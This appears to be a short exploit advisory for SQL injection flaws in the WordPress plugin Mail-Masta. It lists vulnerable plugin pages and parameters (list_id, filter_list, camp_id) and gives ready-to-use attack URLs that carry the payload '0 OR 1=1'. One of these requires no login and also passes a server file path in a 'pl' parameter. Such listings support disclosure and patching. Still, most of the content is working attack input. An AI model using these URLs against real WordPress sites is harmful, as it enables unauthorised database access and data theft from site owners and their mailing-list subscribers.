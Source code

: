 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: /inc/lists/csvexport.php
GET Parameter: list_id
http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


Page: /inc/lists/view-list.php (Requires authentication to Wordpress admin)
GET Parameter: filter_list
http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


Page: /inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)
POST Parameter: camp_id
http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


Page: /inc/campaign_save.php (Requires authentication to Wordpress admin)
POST Parameter: list_id
